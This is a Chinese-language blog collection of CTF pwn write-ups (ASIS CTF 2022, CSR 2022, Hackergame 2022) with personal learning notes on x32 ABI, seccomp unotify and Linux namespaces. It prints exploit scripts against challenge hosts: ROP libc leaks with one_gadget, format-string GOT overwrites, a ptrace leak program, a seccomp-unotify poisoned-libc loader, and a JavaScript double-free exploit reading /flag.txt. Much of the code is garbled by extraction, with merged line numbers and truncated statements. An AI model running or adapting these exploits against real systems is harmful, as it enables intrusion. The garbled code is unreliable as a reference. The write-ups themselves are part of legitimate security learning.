1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 from pwn import *'./strvec.elf64' './libc-2.31.so' )'debug' lambda x:p.send(x) lambda x:p.sendline(x)lambda x:p.recvuntil(x)lambda :p.recvline()lambda :p.recv() lambda x:p.recv(x) lambda x,y:p.sendafter(x,y)lambda x,y:p.sendlineafter(x,y)lambda :p.interactive()1 if c == 0 :"chall.rumble.host" , 5415 )else :False )def get (idx:int ) -> int :b'> ' , b'1' )b'idx =' , str (idx).encode())b'-> ' )False )if b'[undefined]' in data:'get idx:{idx} [undefined]' )8 , b'\x00' ))return datadef set (idx:int , data:bytes =b'\x00' ):b'> ' , b'2' )b'idx =' , str (idx).encode())b'data = ' , data[:-1 ] if len (data)==0x20 else data+b'\n' )def initial ():b'Yogdzewa' )str (0x40000004 ))set (5 , p64(0 )+b'b' *0x18 )5 )f'data is: 0x{chunk1_addr:x} ' )set (5 , flat([0 , 0x421 ]))set (7 , flat([chunk1_addr+0x40 , chunk1_addr+0x40 ], 0 , 0 ))for i in range (5 ):for j in range (4 ):f'idx is: {17 +j+i*6 } ' )set (17 +j+i*6 , b'\x00' )set (0 )set (1 , flat([0 , 0x31 ]))set (5 , flat([0 , 0x31 ]))6 )f'fd_ptr is: 0x{fd_ptr:x} ' )0x1ebbe0 f'libc_base is: 0x{libc.address:x} ' )
ASIS CTF 2022 QUAL babyscan-1 非预期解, 因为%0s相当于不限制长度. 而且amlloc不改变rsp, 就是直接对栈进行覆盖. 来自r3kapig.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 from pwn import *'gnome-terminal' , '-x' , 'sh' , '-c' ]'debug' '/mnt/hgfs/ubuntu/ASIS/babyscan/bin/chall' )'65.21.255.31' ,13370 )'/mnt/hgfs/ubuntu/ASIS/babyscan/bin/chall' )'/mnt/hgfs/ubuntu/ASIS/babyscan/lib/libc.so.6' )b"size: " )str (0 ))"data: " )0x0000000000401433 b'a' *0x48 +p64(pop_rdi)+p64(elf.got["alarm" ])+p64(elf.plt["puts" ])+p64(0x401130 ) b'\x7f' )[-6 :].ljust(8 ,b'\0' ))-libc.sym["alarm" ]b"size: " )str (0 ))"data: " )0xe3b01 b'a' *0x48 +p64(ogg))
babyscan-2 src:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 #include <ctype.h> #include <stdio.h> #include <stdlib.h> #include <unistd.h> int main () char size[16 ], fmt[8 ], *buf;printf ("size: " );scanf ("%15s" , size);if (!isdigit (*size))puts ("[-] Invalid number" );exit (1 );char *)malloc (atoi(size) + 1 );printf ("data: " );snprintf (fmt, sizeof (fmt), "%%%ss" , size); scanf (fmt, buf);exit (0 );void setup (void ) stdin , NULL );stdout , NULL );stderr , NULL );180 );
exp: 来自r3kapig-Lotus
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 from pwn import *'gnome-terminal' , '-x' , 'sh' , '-c' ]'debug' '/mnt/hgfs/ubuntu/ASIS/babyscan2/bin/chall' )'/mnt/hgfs/ubuntu/ASIS/babyscan2/bin/chall' )'/mnt/hgfs/ubuntu/ASIS/babyscan2/lib/libc.so.6' )def Lotus_write (addr,content ):b"size: " )b'9$\x00\x00\x00\x00\x00\x00' +p64(addr)[:7 ])"data: " )"exit" ],p64(0x401256 )[:7 ])"atoi" ],p64(elf.plt["printf" ])[:7 ])b"size: " )b'1-%9$p+' )b'-' )int (r.recvuntil(b'+' )[:-1 ],16 )-0x9A154 b"data: " )b'a' )0xe3b01 "printf" ],p64(ogg)[:7 ])"libc_base: " +hex (libc_base))
readable 终于发现了这题目环境的用法, 先是build.sh编译一下然后再docker build, 然后deploy.py中有一句socat命令是在本地开一个端口接收exp文件, 保存为tempfile, 然后映射到docker中的/tmp/exploit, 继续启动docker, 完成权限设置之后执行/home/pwn/run. run设置了seccomp之后execve了exploit, 然后再怎么执行readme就是我们的事了.
solution 1 X32 ABI直接ptrace拿mmap的pie基址劫持write直接leak, 直接利用mmap系统调用时的地址信息打印出前0x2000的东西, 这样直接就可以发现flag.
这个编译起来不得使用32位? 试下. 还是得64位.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 #include <sys/ptrace.h> #include <sys/types.h> #include <sys/wait.h> #include <unistd.h> #include <stdlib.h> #include <fcntl.h> #include <stdio.h> #include <errno.h> #include <sys/personality.h> #include <sys/user.h> #include <sys/mman.h> unsigned long long base = 0 ;struct user_regs_struct *regs =NULL ;int main (int argc, char *argv[]) void *)0x233000 ,0x1000 ,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_PRIVATE|MAP_ANONYMOUS,-1 ,0 );pid_t traced_process;long ins;char *argvs[] = {"/home/pipe/readme" ,NULL };int pid = fork();if (pid == 0 ) {0x40000209 ,PTRACE_TRACEME, 0 , 0 , 0 );"/home/pipe/readme" , argvs, NULL );puts ("exec failed" );return -1 ;NULL );while (1 ) {int blocked = 0 ;0x40000209 ,PTRACE_SYSCALL, pid, 0 , 0 );0 , 0 );0x40000209 ,PTRACE_GETREGS, pid, 0 , regs);if (regs->orig_rax == 10 && regs->rsi==0x1000 )printf ("Mmap Rdi:%08llx\nMmap Rsi:%08llx\nMmap Rdx:%08llx\n" ,regs->rdi,regs->rsi,regs->rdx);if (regs->orig_rax == 1 && regs->rdx == 0x10 ) {1 ;printf ("Rsi before:%08llx\n" ,regs->rsi);0x2000 ;printf ("Rsi after:%08llx\n" ,regs->rsi);0x40000209 ,PTRACE_SETREGS, pid, 0 , regs);0x40000209 ,PTRACE_SYSCALL, pid, 0 , 0 );0 , 0 );if (blocked) {regs->rax = 1 ; syscall(0x40000209 ,PTRACE_SETREGS, pid, 0 , regs); break ;}return 0 ;
真正的系统调用号保存在 /usr/include/x86_64-linux-gnu/asm/unistd_x32.h：
#ifndef _ASM_X86_UNISTD_X32_H #define _ASM_X86_UNISTD_X32_H 1 #define __NR_read (__X32_SYSCALL_BIT + 0) #define __NR_write (__X32_SYSCALL_BIT + 1) #define __NR_open (__X32_SYSCALL_BIT + 2) #define __NR_ioctl (__X32_SYSCALL_BIT + 514) #define __NR_readv (__X32_SYSCALL_BIT + 515) #define __NR_writev (__X32_SYSCALL_BIT + 516) #define __NR_recvfrom (__X32_SYSCALL_BIT + 517) #define __NR_sendmsg (__X32_SYSCALL_BIT + 518) #define __NR_recvmsg (__X32_SYSCALL_BIT + 519) #define __NR_execve (__X32_SYSCALL_BIT + 520) #define __NR_ptrace (__X32_SYSCALL_BIT + 521)
而__X32_SYSCALL_BIT的值为0x40000000, 所以上面的数值上就可以解释了.
int 0x80 和 syscall 的区别 (好吧跟这个没啥关系.
主要利用点在于x64下有一种x32 ABI模式, 能够在减小指针和地址空间开销的同时利用起64位cpu上多的寄存器和运算部件, 提高程序运行速度. 他的系统调用就如上面所示, 只要加上一个数值即可, 或者说是按位或(|). 而寄存器高32位的部分都被清空, 以此模拟32位运行状态.
还没有run过, 第二天环境弄一个小时没整好, 看来还是得靠docker. 终于知道了这一堆东西怎么用了.
不过为什么没法直接跑通? 看着挺好的呀, 但是看起来ptrace全都失败了, regs里面没有一点信息.
我还不知道在docker里面运行的程序如何调试.
ptrace真的fail了, 返回了一个-1. 继续查查errno看是什么. 是not implement. 不知道了. 只能一问队友.
crazyman说ubuntu18能行, 但是docker里面改成18.04并不可行. emmmmm?难道不是这样么?
22/11/14在编译linux时发现有一个选项是x32 ABI for 64 bit mode , 勾上了重新编译, 尝试了下能不能运行.
修改HOME路径, 再把readme重新编译成静态文件, 放到HOME中设置成其他用户只读, 忽略run.c(因为他只是限制了一下可用的系统调用)
还是遇到了很多问题.
使用busybox的linux还是有很多限制, 每个文件都得编译成静态文件, 使得本来是PIE的readme变成静态链接文件, 然后mmap调用似乎消失了, ptrace根本截取不到(???), 也没有strace看到底发生了什么.
而且静态链接也使得文件变得很大, 仅输出前面0x2000字节还是不够, 还得调整.
不过好在发现了这个方法确实可行 , 不过docker里面的系统似乎都没有加上这一个选项, 想来当时比赛时的环境可以吧. 不过明明都是同一个Dockerfile怎么还不一样呢.
solution 2 - intended one
given by the author
作者原话:
Intended way was using seccomp unotify to change libc binary
Linker loads libc, you set a hook for openat. And then use seccomp_setfd to send a poisoned libc
seccomp unotify: user notify, 可以做到在syscall的时候携带信息给supervisor(大多都是container应用), 让它来决定是继续执行syscall还是停止执行并返回特定数值.
流程:
solve.py上传了exploit, 然后exploit在docker里接受payload放到/tmp/payload.
exp使用UNIX domain socket建立程序间通信渠道.
装载sigchild signal的处理函数, handler直接执行exit().
fork出子进程, 一通prctl+install seccomp unotifier之后通过socket发送notifyfd到父进程, 再执行/home/pwn/readme.
(然后都是unotify supervisor的基本流程)
通过socket接受unotify fd. (这个流程也很长, 使用了recvmsg等一系列奇怪函数, 不管了.)
通过ioctl来轮询fd, 当readme openat的时候会被打断, 此时由父进程打开payload文件, 然后通过seccomp_notif_addfd来复制fd到子进程的fd列表之中, 由ioctl返回在子进程中最终打开的fd number, 最后response, 设置openat syscall的返回值为该fd number.
上面的流程是一个死循环, 由child exit到signal handler终止所有进程.
关键点:
UNIX domain socket or IPC socket
#include <sys/socket.h> int socket_family, int socket_type, int protocol);
其中socket_family=AF_UNIX, socket_type有三种(TCP UDP SCTP?)
send是fd和recvfd函数都是使用sendmsg来…..看不懂, 一堆宏定义, 反正知道他能通过socket fd来传递fd就行了.
seccomp unotify:seccomp(SECCOMP_SET_MODE_FILTER, SECCOMP_FILTER_FLAG_NEW_LISTENER, &prog);
因为glibc没有对seccomp wrap, 所以实际上是:
static int seccomp (unsigned int operation, unsigned int flags, void *args) return syscall(__NR_seccomp, operation, flags, args); }
第一个SECCOMP_SET_MODE_FILTER就是指把arg当成BPF指针来定义一个filter. 这个filter在fork clone execve的时候保留下来. 前提 是调用的线程必须在它的namespace里有CAP_SYS_ADMIN, 或者已经设置了no_new_privs位.
一般都关注后者, 也就是通过prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0)设置. 这个process control函数配上这些参数能够限制execve执行setuid的程序, 否则通过execve执行setuid程序后装载一个不执行setuid()且返回0的filter时, 这样的程序会在没有真正drop privileges的情况下继续运行malicious commands.
而第二个参数flags要使用SECCOMP_FILTER_FLAG_NEW_LISTENER, 这样成功安装filter后，返回一个新的user-space notification file。(为文件描述符设置了“close-on-exec” flag。)当filter返回SECCOMP_RET_USER_NOTIF时，将向该fd发送通知。每线程最多只能装载一个带有这个flag的filter.
SECCOMP_IOCTL_NOTIF_ADDFD
The SECCOMP_IOCTL_NOTIF_ADDFD operation (available since Linux5.9) allows the supervisor to install a file descriptor into the target’s file descriptor table.
总之就是将symbol绑定到version node上, 一个symbol可以有多个version node, 最关键的是map file.
同时可以在库的源代码中添加绑定信息, 这样可以减少shared library maintainer的工作, 不过此时mapfile必须包括所有的version node, 也就是这个asm trick只是mapfile的补充.
经过测试, solution中的payload.c可以大幅度缩减, payload.map也可以删去2.34的定义:
puts完全没必要, 只要__libc_start_main被修改为write函数之后就已经达成目的.
源码中使用asm把__libc_start_main_impl当做__libc_start_main的alias,__libc_start_main就行了
头文件也没必要. 2.2.5也没必要. 为什么是这个版本号我也不知道.
过了一个月再试发现payload.map里2.2.5和2.34都不能删去, 否则libc会报version not found. 原因未知.
exp: 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 173 174 175 176 177 178 179 180 181 182 183 184 185 186 187 188 189 190 191 192 193 194 195 196 197 198 199 200 201 202 203 204 205 206 207 208 209 210 211 212 213 214 215 216 217 218 219 220 221 222 223 224 225 226 227 228 229 230 231 232 233 234 235 236 237 238 239 240 241 242 243 244 245 246 247 248 249 250 251 252 253 254 255 256 257 258 259 260 261 262 263 264 265 266 267 268 269 270 271 272 273 274 275 276 277 278 279 280 281 282 283 284 285 286 287 288 289 290 291 292 293 294 295 296 297 298 299 300 301 302 303 304 305 306 307 308 309 310 311 312 313 314 315 316 317 318 319 320 321 322 323 324 325 326 327 328 329 330 331 332 333 334 335 336 337 338 339 340 341 342 343 344 345 346 347 348 349 350 351 352 353 354 355 356 357 358 359 360 361 362 363 364 365 366 367 368 369 370 371 372 373 #define _GNU_SOURCE #include <errno.h> #include <fcntl.h> #include <limits.h> #include <linux/audit.h> #include <linux/filter.h> #include <linux/seccomp.h> #include <signal.h> #include <stdbool.h> #include <stddef.h> #include <stdint.h> #include <stdio.h> #include <stdlib.h> #include <sys/ioctl.h> #include <sys/prctl.h> #include <sys/socket.h> #include <sys/stat.h> #include <sys/syscall.h> #include <sys/types.h> #include <sys/un.h> #include <unistd.h> #define errExit(msg) \ do \ { \ perror(msg); \ exit(EXIT_FAILURE); \ } while (0) static int sendfd (int sockfd, int fd) struct msghdr msgh ;struct iovec iov ;int data;struct cmsghdr *cmsgp ;union { char buf[CMSG_SPACE(sizeof (int ))];struct cmsghdr align ;NULL ;0 ;1 ;sizeof (int );12345 ;sizeof (controlMsg.buf);sizeof (int ));memcpy (CMSG_DATA(cmsgp), &fd, sizeof (int ));if (sendmsg(sockfd, &msgh, 0 ) == -1 )return -1 ;return 0 ;static int recvfd (int sockfd) struct msghdr msgh ;struct iovec iov ;int data, fd;ssize_t nr;union { char buf[CMSG_SPACE(sizeof (int ))];struct cmsghdr align ;struct cmsghdr *cmsgp ;NULL ;0 ;1 ;sizeof (int );sizeof (controlMsg.buf);0 );if (nr == -1 )return -1 ;if (cmsgp == NULL || cmsgp->cmsg_len != CMSG_LEN(sizeof (int )) ||return -1 ;memcpy (&fd, CMSG_DATA(cmsgp), sizeof (int ));return fd;static void sigchldHandler (int sig) puts ("Child exited" );static int seccomp (unsigned int operation, unsigned int flags, void *args) return syscall(__NR_seccomp, operation, flags, args);#define X32_SYSCALL_BIT 0x40000001 #define X86_64_CHECK_ARCH_AND_LOAD_SYSCALL_NR \ BPF_STMT(BPF_LD | BPF_W | BPF_ABS, (offsetof(struct seccomp_data, arch))), \ BPF_JUMP(BPF_JMP | BPF_JEQ | BPF_K, AUDIT_ARCH_X86_64, 0, 2), \ BPF_STMT(BPF_LD | BPF_W | BPF_ABS, (offsetof(struct seccomp_data, nr))), \ BPF_JUMP(BPF_JMP | BPF_JGE | BPF_K, X32_SYSCALL_BIT, 0, 1), \ BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_KILL_PROCESS) static int installNotifyFilter (void ) struct sock_filter filter [] =0 , 1 ),struct sock_fprog prog =sizeof (filter) / sizeof (filter[0 ]),int notifyFd =if (notifyFd == -1 )"seccomp-install-notify-filter" );return notifyFd;static void closeSocketPair (int sockPair[2 ]) if (close(sockPair[0 ]) == -1 )"closeSocketPair-close-0" );if (close(sockPair[1 ]) == -1 )"closeSocketPair-close-1" );static pid_t targetProcess (int sockPair[2 ], char *argv[]) pid_t targetPid = fork();if (targetPid == -1 )"fork" );if (targetPid > 0 ) return targetPid;if (prctl(PR_SET_NO_NEW_PRIVS, 1 , 0 , 0 , 0 ))"prctl" );int notifyFd = installNotifyFilter();if (sendfd(sockPair[0 ], notifyFd) == -1 )"sendfd" );if (close(notifyFd) == -1 )"close-target-notify-fd" );puts ("Executing child" );1 );char *f = NULL ;"/home/pwn/readme" , &f, &f);exit (EXIT_SUCCESS);static void allocSeccompNotifBuffers (struct seccomp_notif **req, struct seccomp_notif_resp **resp, struct seccomp_notif_sizes *sizes) if (seccomp(SECCOMP_GET_NOTIF_SIZES, 0 , sizes) == -1 )"seccomp-SECCOMP_GET_NOTIF_SIZES" );malloc (sizes->seccomp_notif);if (*req == NULL )"malloc-seccomp_notif" );size_t resp_size = sizes->seccomp_notif_resp;if (sizeof (struct seccomp_notif_resp) > resp_size)sizeof (struct seccomp_notif_resp);malloc (resp_size);if (resp == NULL )"malloc-seccomp_notif_resp" );static void handleNotifications (int notifyFd) struct seccomp_notif_sizes sizes ;struct seccomp_notif *req ;struct seccomp_notif_resp *resp ;char path[PATH_MAX];for (;;)memset (req, 0 , sizes.seccomp_notif);if (ioctl(notifyFd, SECCOMP_IOCTL_NOTIF_RECV, req) == -1 )if (errno == EINTR)continue ;"\tS: ioctl-SECCOMP_IOCTL_NOTIF_RECV" );if (req->data.nr != __NR_openat)printf ("\tS: notification contained unexpected " "system call number; bye!!!\n" );exit (EXIT_FAILURE);struct seccomp_notif_addfd addfd ;0 ], "/tmp/payload" , req->data.args[2 ], req->data.args[3 ]);3 ;0 ;int a2 = ioctl(notifyFd, SECCOMP_IOCTL_NOTIF_ADDFD, &addfd);0 ;0 ;0 ;0 ;if (ioctl(notifyFd, SECCOMP_IOCTL_NOTIF_SEND, resp) == -1 )if (errno == ENOENT)printf ("\tS: response failed with ENOENT; " "perhaps target process's syscall was " "interrupted by a signal?\n" );else "ioctl-SECCOMP_IOCTL_NOTIF_SEND" );free (req);free (resp);exit (EXIT_FAILURE);static void supervisor (int sockPair[2 ]) int notifyFd = recvfd(sockPair[1 ]);if (notifyFd == -1 )"recvfd" );void readBinary () int sz, readed;printf ("size:" );scanf ("%d" , &sz);char *buf = malloc (sz);int f = open("/tmp/payload" , O_WRONLY | O_CREAT, 0777 );while (sz > 0 )0 , buf, sz);int main (int argc, char *argv[]) int sockPair[2 ];stdout , NULL );if (socketpair(AF_UNIX, SOCK_STREAM, 0 , sockPair) == -1 )"socketpair" );struct sigaction sa ;0 ;if (sigaction(SIGCHLD, &sa, NULL ) == -1 )"sigaction" );exit (EXIT_SUCCESS);
payload: 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 void __libc_start_main(){asm (".intel_syntax noprefix" );asm ("mov rax,1" );asm ("mov rsi,rdi" );asm ("mov rdi,1" );asm ("mov rdx,0x1000" );asm ("syscall" );
map: GLIBC_2.34 {puts ;.2 .5 {
solution 3 - ?
team solution
#include <sys/prctl.h> int main (void ) 1 , 0 , 0 , 0 );"bash" , "bash" , "-c" , "LD_DEBUG=all sudo" , NULL );
然后呢? 没看懂
呃呃感觉是上一种方法的一个步骤,
LD_DEBUG能打印出ld在加载共享库时的信息, 包括符号信息.
PR_SET_NO_NEW_PRIVS让之后的exec执行的新程序无法通过简单的setgid或者修改文件权限获得新的权限.
这里是解法来源link
jsy 最短的一个exp, 最长的有几千行不知道在写啥. 最短的也不知道在写啥.
发现了文档, 原来是一个js解释器, 是一个现成的项目. 那个patch是真是存在的一个漏洞吗? 这代码量也太大了….js也不怎么会…
patch里加的free可以double free，2.35的glibc，可以通过占位控制某个header实现任意地址读写
没有Buffer，可以用Array，header大小应该是0x90
Array被free时，貌似只有header被free了，body不会被free
@zanderdk的解释: Short explanation: We use quite to create a object of type JS_CCFUNCTION which will have c union type bellow:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 struct js_Object { char noTcacheOverwrite[0x18 ]; enum js_Class type ;int extensible;int count; union {struct {const char *name;int length;void *data;
js_CFunction function; is a function pointer. We then free this object (target in hax.js) but keep a refrence to this object and we allocate it back using:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 static void S_fromCharCode (js_State *J) int i, top = js_gettop(J);char * volatile s = NULL ;char *p;if (js_try(J)) {-1 ) * UTFmax + 1 );for (i = 1 ; i < top; ++i) {0 ;
then we partialy overwrite the function pointer with the addres of static void jsB_read(js_State *J) which will put the content of a file into a JS string. The problem here is the *p = 0; in the C above, as it will insert null terminator in the address. Sooo we just run it enough times for ALSR to pick a address with 0 at that position in the address. also runetochar do some utf8 magic to some of the bytes we put in if outside of ascii range. so prop a bit more than 255 actually.
exp: 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 JS_CCFUNCTION = 4 var a = "" ;for (var i = 0 ; i < 0x20 ; i++) {"\x08" ;var thingy = {};var dummy1 = {};var dummy2 = {};var dummy3 = {};var dummy4 = {};var target = quit;var over = "A" ;var a = ((target.length) & 0xffffff ) - 0x2c2 ;String .fromCharCode(0x010000 ,0x010000 ,0x010000 ,0x010000 ,0x010000 ,0x010000 ,0x41 ,0x41 ,0x41 ,0x010000 , 0x010000 , 0x010000 ,0x010000 , 0x010000 ,0x0800 , 0x43 , 0x43 , 0x43 ,0x43 ,0x43 ,0x43 ,0x43 ,0x43 ,0x43 ,0x41 ,0x41 ,0x41 ,0x41 ,0xff ,8 ) & 0xff ,16 ) & 0xff "/flag.txt" ));while (1 );
Escape maze 还没看过.
from pwn import *"65.21.255.31" ,34979 )b'0' while 1 :b'key number:' )print (u)b'\n' )[-2 ].split(b' ' )[-8 ].replace(b',' ,b'' )if nr!=r:else :b'\n' )[1 ].split(b' ' )[-1 ])
ASIS CTF 2022 FINA readable-v2 …
CSR 2022 PWNMEPLX
CSR 2022
┌──(root💀kali)-[/mnt/LearingList/CTF/PWNMEPLX]
这个是取绝对值的x64汇编写法:
.text:0000000000401336 8B 45 8C mov eax, [rbp+var_74]
简单的栈溢出覆盖返回地址居然因为<__vfscanf_internal+133>处的xmmword需要0x10字节对齐而出错…….
简单的不想多说. 但是还是做了好一会儿, 还在想是不是符号/浮点数的问题, 结果就是一个简单的后门栈溢出.
这个比赛的pwn题全都是签到, 差点意思.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 from pwn import *'./pwn.elf64' 'debug' #send string #recv one #recv n 0 if c == 0 :"chall.rumble.host" , 5415 )else :"./pwn.elf64" )'b ' *(112 +8 ) + pack(0x401348 , 64 )"-1" )
PWNFORTRESS
同上, 不过题目是rev+game. 基本不会
主要问题是明确了glibc版本, 但是ubuntu的2.3几之后的全都是用.zst压缩, dpkg无法解压, 改成了清华源中debian的glibc库, 然后dbg版本的包里面也没有带符号的库文件. 不知道怎么用了, 分析了半天glibc-all-in-one代码不知道怎么改, 索性就没有符号吧. 不过在ubuntu2022里直接运行.
debian glibc file catagory | tuna mirror site
不会做.
unintended solution:
breakpoint before the level is printed, make it print the last level instead, it will segfault, but the decoded map is in memory
随便看到一题都有三个标签, cry, misc, pwn, 没接触过的加密和杂项, 属实不会, 还有一些虚拟机逃逸加上什么RISC-JIT之类没听说过的技术. 到处都是知识盲区.
Hackergame 2022 简单题略过了, 不太想花时间. 能做的学不到东西, 能学到的基本不会做.
猫咪问答: 懒得做. 旅行图片: 社工懒得做. 纯耗时间.
签到: mousedown的事件监听的touchStart函数加上一个logpoint让lefttime不变
HeiLang: 无聊的语法转换
Flag自动机: 是window程序, 看了看IDA的反编译代码后发现有消息回调函数, 在cheat engine里让x, y变得不随机, 然后改一个变量进入flag生成.
One-byte-man 挺神奇的, 代码里面又是还没看的linux概念………
prctl参数PR_SET_CHILD_SUBREAPER: 设置进程树属性, 使得树中孤儿被收养到最近的设置了属性的 父进程处.只能通过 execve继承而非fork和clone.
认真看了下namespace的man page. CLONE_NEW*一系列flag.
user_namespace: A process’s user and group IDs can be different inside and outside a user namespace.
sudo echo '0 1000 1\n1000 0 1' > /proc/121634/uid_map
The /proc/[pid]/setgroups file
setgroups() sets the supplementary group IDs
gid_map没设置以及上面的文件显示”deny”时, 不能用setgroups()
gid_map设置之后(setgroups已确定是否启用)不能通过写入任何字符 来改变.
在Linux 3.19被加入. 解决了”rwx—rwx”文件的问题. 即换到other user反而提权了, by denying any pathway for an unprivileged process to drop groups with setgroups(2).
/proc/sys/kernel/overflowuid: 未map时尝试读取uid会显示的数字. 在uid_map第二个field没有map时也可能显示4294967295.权限检查时uid会转换到initial user namespace中的uid.
capabilities:
进程有四个set, 文件有p和i加上一个effective bit.
四个set看了老半天不知道实际是如何操作的, 只有effective和bounding能看明白. bounding应该是个全集, 不过也能够对其进行删减, 意义不明. permitted set应该为该进程允许获得的caps. ambient更是完全不懂 .
下图是执行execve时cap的变化情况. 注意到当文件effective bit为1时文件的permitted加入了effective set, 这也是一些blog演示ping文件的利用之处, 即cap_net_raw+ep; 这和ambient有啥不同?
credentials
看到还有个Filesystem user ID and filesystem group ID, 只能说不知道有什么用, 只看到是和supplementary group IDs一起用于判断文件access permissions.
Supplementary group IDs: 一个用户属于一个primary group, 同时又属于多个Supplementary group, 这样就不用切换了, 主要是省事. 在id命令第一个group后面跟着的东西就是.
capsh getcap setcap getpcaps 和 grep Cap /proc/self/status
pwn.c代码内容: 来自gpt
这是一个将用户提供的 shellcode 执行在沙箱环境中的程序。用户需要在运行程序时指定一个名为 /chall_env 的文件夹，该文件夹充当着沙箱环境的根目录。在程序启动时，它会先检查是否正确指定了 /chall_env 文件夹，如果没有则会退出。
程序会通过 socketpair 创建一对父子进程间通信的 UNIX 域套接字，然后通过 clone 系统调用创建一个拥有新的命名空间的子进程，并将该子进程的 PID 记录下来。父进程通过设置子进程的 USER namespace、PID namespace、IPC namespace、UTS namespace、NET namespace、CGROUP namespace 和 MOUNT namespace 来限制子进程所能访问的资源，从而阻止子进程破坏主机的安全。在这里，父进程会设定子进程的私有 IPC namespace，这意味着子进程无法和父进程之外的其他进程进行通信。
父进程也会将子进程的 USER namespace 与父进程的 USER namespace 分离开来，从而避免潜在的权限提升和越权访问。有关 namespace 的详细信息可以查看 Linux 的 man page 或者学习相关的容器化技术。
在设置好沙箱后，父进程会等待子进程的准备就绪，之后发送一个 signal 给子进程，唤醒它。子进程会先 chroot 到指定的 /chall_env 文件夹，之后通过 execl 系统调用执行指定的 shell，此时用户可输入 shellcode。该 shell 的缺省 shell 是 busybox。
在子进程中执行 shell 后，父进程将子进程的 UID/GID 映射到自己的 UID/GID 上，防止子进程提权。同时，父进程也会等待子进程结束，如果该子进程执行时间超过了 10 秒，则会通过 SIGALRM 信号切断它的执行。
最后，如果子进程执行了 shellcode，程序会调用 run_shellcode 函数，在指定的 /chall_env 中搜索一个名为 shellcode 的文件，然后将其 mmap 进内存并执行。
整个程序的目的在于创建一个安全隔离的沙箱环境，使得用户可以输入 shellcode 而不影响主机的安全性。同时，程序也有一些安全机制，比如限制子进程的访问权限、映射 UID/GID、限制 shellcode 大小以及设定超时时限等。
其中的过程有点小错误, 父进程设置完uid gid映射之后才让子进程继续运行, 并没有发送信号而是通过socket传递消息. 但其实绝大部分都是正确的, 和他的速度相比还是非常靠谱.
WP
看不见的彼方 额, 先看rust去了.
题目相关:
IPC Namespace主要用于隔离进程间通信(IPC)相关的资源，从而保证容器之间的安全隔离。在IPC Namespace中，有一些系统调用的使用受到了限制，包括：
msgget, msgsnd, msgrcv：这些系统调用用于创建、发送和接收System V消息队列中的消息，但是在IPC Namespace中，这些操作将被隔离成为单独的命名空间，不同的Namespace之间无法相互传递消息。
semget, semop, semctl：这些系统调用用于创建、操作和控制System V信号量，但是在IPC Namespace中，每个容器只能访问自己的信号量。
shmget, shmat, shmdt, shmctl ：这些系统调用用于创建、映射、卸载和控制System V共享内存，但是在IPC Namespace中，每个容器只能访问自己的共享内存段。
除此之外，POSIX消息队列和futex机制也可以被限制在IPC Namespace的范围内。可以通过在创建IPC Namespace时指定需要限制的系统调用来达到这个目的。在一些安全性要求比较高的场景中，这些限制可以有效地保护系统免受潜在的攻击。
下次一定问问chatgpt.
Alice：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 #include <stdio.h> #include <stdlib.h> #include <sys/shm.h> int main () void *shm = NULL ;int shmid = shmget((key_t )1234 , 0x1000 , 0666 |IPC_CREAT);if (shmid == -1 )fprintf (stderr , "shmat failed\n" );exit (1 );0 , 0 );if (shm == (void *)-1 )fprintf (stderr , "shmat failed\n" );exit (1 );printf ("Memory attached at %p\n" , shm);"/secret" ,"r" );fscanf (f,"%s" ,shm+8 );int *)shm=1 ;
Bob：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 #include <stdio.h> #include <stdlib.h> #include <sys/shm.h> int main () void *shm = NULL ;int shmid = shmget((key_t )1234 , 0x1000 , 0666 |IPC_CREAT);if (shmid == -1 )fprintf (stderr , "shmat failed\n" );exit (1 );0 , 0 );if (shm == (void *)-1 )fprintf (stderr , "shmat failed\n" );exit (1 );fprintf (stderr , "Memory attached at %p\n" , shm);while (*(int *)shm!=1 );puts (shm+8 );
顺便一提即使上了全套 namespace，由于 sysconf 可以查询剩余内存（返回也不会受 mem cgroup 影响），所以也可以拿来做隐蔽信道。来自第一的选手
传达不到的文件 WP
读不到 这个题的预期解法是使用 ptrace 单步执行程序，并提取每一步的寄存器，从而理解程序逻辑。之后在 syscall 之前修改 rax（系统调用编号）为 1 (write)，从而泄露整个二进制文件。
exp
